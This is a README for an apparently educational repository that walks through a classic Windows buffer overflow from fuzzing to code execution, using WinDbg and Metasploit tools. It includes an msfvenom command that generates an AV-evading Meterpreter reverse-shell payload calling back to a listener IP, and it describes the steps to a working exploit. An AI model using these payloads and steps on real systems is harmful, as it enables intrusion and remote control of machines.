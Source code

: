 # Classic-Buffer-Overflows<br/>

Python scripts needed to perform a buffer overflow from a previously known vulnerable application or proof of concept. There will also be a small description instructing how to use the files.<br/>
For this particular application I also use WinDbg to build out from the PoC to getting a meterpreter shell. <br/>
The naming covention I am using is as follows<br/>
SX[ShortDescription].py<br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;where SX is the step number, followed by a short description.<br/>
# \*\~\*\~\*\~\*\~Legal Disclaimer\~\*\~\*\~\*\~\*
These scripts are meant to be modified with the intent of hardcoding things like the ip and port number but that's just personal preference.<br/>
Feel free to do whatever you want to do with these scripts within the confines of the law.<br/>
You are solely responsible for your actions.<br/>
# \*\~\*\~\*\~\*\~Legal Disclaimer\~\*\~\*\~\*\~\*

## S1PoCFuzz.py
This is a fuzzer that sends an arbitrary amount of data to a web based application that causes a crash.<br/>
Usage: ./S1PoCFuzz.py {IP} {Port} {Data} <br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;where data is an interger that represents the number of bytes that cause a crash.<br/>
<br/>
In our WinDbg debugger we see that we have overwriten every register except the ESP using the r command. <br/>
We can see what the ESP register points to by using the following command:<br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dds esp<br/>
![alt tag](https://github.com/ZeusBanda/Classic-Buffer-Overflows/blob/main/WinDbg-Images/S1Fuzz.png)<br/>

## S2FindOffset.py
This script along with our debugger will help us find offset that writes to the EIP.<br/>
First we generate an array of characters using the following command:<br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;msfvenom-pattern_create l- {data}<br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;where data represents the number of bytes that caused the crash.<br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Next we make sure to send the character array to the vulnerable application.<br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;This is shown on line 16 of this script.<br/>
Usage ./S2FindOffset.py {IP} {Port}<br/>
<br/>
From our debugger, we see that the EIP is overwritten by 33794332
![alt tag](https://github.com/ZeusBanda/Classic-Buffer-Overflows/blob/main/WinDbg-Images/S2EIP.png)<br/>
Next we use find the offset that will overwrite the EIP by using the following command<br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;msfvenom-pattern_offset -l {data} -q {eip}<br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; where -l {data} is the amount of data that caused the application to crash and -q {eip} is the area we want to overwrite.
![alt tag](https://github.com/ZeusBanda/Classic-Buffer-Overflows/blob/main/WinDbg-Images/S2Offset.png)<br/>
## S3ChangeEIP.py
Now that we know where our EIP is, we want to verify it and find a suitable location for our reverse shell.<br/>
usage ./S3ChangeEIP.py {IP} {port} {offset}<br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Where offset is the interger that obtained from the msfvenom-find_offset command<br/>
<br/>
In our WinDbg debugger we see that we have overwriten ESP with 42424242, or the hex representation of BBBB, using the r command. <br/>
We can see what the ESP register points to with the following command:<br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dds esp -14 L10<br/>
![alt tag](https://github.com/ZeusBanda/Classic-Buffer-Overflows/blob/main/WinDbg-Images/S3EIPOverwrite.png)<br/>
This command shows us that our ESP is 041dee6c.<br/>
The lines before our ESP show us that there are some 41s and some 42s.<br/>
These 42s represent our EIP, but more importantly we see that our ESP points to 44s.<br/>
This is where our shellcode will go.<br/>
By changing the value of L 10 to something higher we can see more bytes after our ESP. <br/>
It is good practice to navigate to each register to see how the application handles data. <br/>
This can be important because some applications may not have enough memory for our shellcode.<br/>
I will cover a few strategies later to overcome this limitation.<br/>
## S4BadChars.py
Before we can generate our shellcode, we have to find what characters cause our attack to fail.<br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Usage S4BadChars.py {IP} {Port}<br/>
![alt tag](https://github.com/ZeusBanda/Classic-Buffer-Overflows/blob/main/WinDbg-Images/S4BadChars.png)<br/>
using the command dds esp in WinDBg we can see the character array we sent to the application.<br/>
The nullbyte character (\x00) is omitted because its very likely to cause our attack to fail.<br/>
We are looking for characters that are out of place from 01 to ff.<br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;An out of place character may look like 01 02 03 04 08 06 07 08<br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;In this case we would return to our python script remove 05 and make a note of it.<br/>
<br/>
We are also looking for characters that truncate the character array.<br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Truncation looks like 97 98 99 9a 9b 9c 00 ff f3 5a<br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Where 9d would need to be removed because 9c is the last character from our array.<br/>
<br/>
Fortunately, this application does not have bad characters other than 00.<br/>
However, it is very important to note what these bad characters are.<br/>
We repeat this until we verify each character in our array.<br/>
## Generating our Shellcode
Before we can generate our shellcode, we need to find a module that contains a jump instruction.<br/>
This jump instruction will help us jump to our shellcode.<br/>
To do this we will use a program called process hacker and find our vulnerable application.<br/>
![alt tag](https://github.com/ZeusBanda/Classic-Buffer-Overflows/blob/main/WinDbg-Images/S4Modules.png)<br/>
The ideal module does not have any protection, meaning that the ASLR and CF Guard fields are blank.<br/>
When we find a potentially suitable module, we go to our debugger and find the address for our jump command.<br/>
![alt tag](https://github.com/ZeusBanda/Classic-Buffer-Overflows/blob/main/WinDbg-Images/S4JMPESP.png)<br/>
The first command gives us the boundary of the module. This boundary limits our search scope for our jump command.<br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;lm m vulnapp1<br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;where lm list the modules and m specifies a pattern that must match our query of vulnapp1.<br/>
The seccond command helps us achieve this.<br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;s -b 14800000 14816000 0xff 0xe4<br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;This command searches for ffe4 from 14800000 14816000 displaying the (-b)bytes.<br/>
In this case, since we are jumnping to the ESP we are searching for jmp esp which is ff e4<br/>
But a different application might require a different jump code<br/>
Which are here for your convinience. <br/>
![alt tag](https://github.com/ZeusBanda/Classic-Buffer-Overflows/blob/main/WinDbg-Images/S4JMPCodes.png)<br/>
Now we can generate out shellcode using the following command:<br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.49.191 LPORT=443 EXITFUNC=thread -f python –e x86/shikata_ga_nai -b "\x00"<br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;where we use -p for the platform we are attacking and payload we are using<br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;EXITFUNC=thread becuase we dont want to close the vulnerable app when we close the shell<br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;-e x86/shikata_ga_nai to encode the shellcode to either evade AV or avoid bad characters<br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;-b lets you specify what the bad characters are.<br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;This is shown below.<br/>
![alt tag](https://github.com/ZeusBanda/Classic-Buffer-Overflows/blob/main/WinDbg-Images/S5GenerateShellcode.png)<br/>
## S5FinalBoF.py
Now we put everything together into this script and we get our code execution.<br/>
Usage ./S5FinalBoF.py {ip} {port} {offset}<br/>
Next we set up our listener and run this script.<br/>
If everything went well we should have code execution<br/>
Shown below is setting up the listener as well as proof of code execution...<br/>
![alt tag](https://github.com/ZeusBanda/Classic-Buffer-Overflows/blob/main/WinDbg-Images/S6ReverseShell.png)<br/>
